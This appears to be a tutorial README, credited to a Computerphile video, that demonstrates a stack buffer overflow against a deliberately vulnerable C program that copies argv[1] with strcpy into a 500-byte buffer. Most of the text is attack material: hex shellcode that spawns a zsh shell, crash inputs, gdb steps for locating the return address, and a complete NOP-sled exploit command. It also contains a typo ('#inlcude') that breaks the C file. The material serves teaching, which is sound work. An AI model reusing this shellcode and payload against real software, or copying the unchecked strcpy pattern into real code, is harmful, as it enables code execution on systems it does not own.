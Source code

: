 ### __SIMPLE C CODE__

**code name: vuln.c**
```cpp
#include <stdio.h>
#inlcude <string.h>

int main (int argc, char** argv) 
{
	char buffer[500];
	strcpy(buffer, argv[1]);

	return 0;
}
```
...

compile code: **gcc vuln.c -o vuln**

___


### __STRING ASSEMBLY COMMAND TO RUN ZSH__

```bash
\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x2f\x7a\x73\x68\x68\x2f\x62\x69\x6e\x68\x2f\x75
\x73\x72\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80
```

**LEGEND:**

**Total size** : 43 bytes
**xcd /x80** : Throw system interrupt / run system call

___

### __CRASH PROGRAM__

```bash
./vuln $(python -c 'print "\x41" * 504') : 504 > 500 (buffer size)
```
___

### __RUN DEBUGGER AND CRASH CODE__
```bash
gdb vuln

# disassemble main > see the Assembly code of main, just for information
(gdb) disas main

(gdb) run $(python -c 'print "\x41" * 508')

# Some Registers are populated by the Incorrect Address "\x41", hence segmentation fault.
(gdb) info registers   

# List 200 registers information starting from the stack pointer (sp) : MIGHT NOT BE HELPFUL
(gdb) x/200x $sp   

# Move the pointer backward and List num registers information.
(gdb) x/[num]x $sp - 500
```

___

### __EXPLOIT VULNERABILITY__

```bash
(gdb) run $(python -c 'print "\x90" * 425 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x2f\x7a\x73\x68\x68\x2f\x62\x69\x6e
					     \x68\x2f\x75\x73\x72\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd
                                             \x80\xb0\x01\x31\xdb\xcd\x80" + "\xba\xfa\xff\xbf" * 10')

```

**Format** 	      : `run $(python -c 'print "No-Op COMMAND" * 425 + "ASSEMBLY COMMAND" + "RETURN ADDRESS"')`
**x90**	      : **No-Op sled** -> tell the cpu to run the next command. 
**RETURN ADDRESS**: Points To a Register storing a No-Op COMMAND to pass execution until we reach the ASSEMBLY COMMAND.

___

### __HOW TO CHOOSE RETURN ADDRESS__

```bash
# This will list registers and their value

(gdb) x/200x $sp -500
```

Choose one of the registers, pick in the middle, that contains the No-Op COMMAND. 

Source YouTube: Buffer Overflow Attack - Computerphile



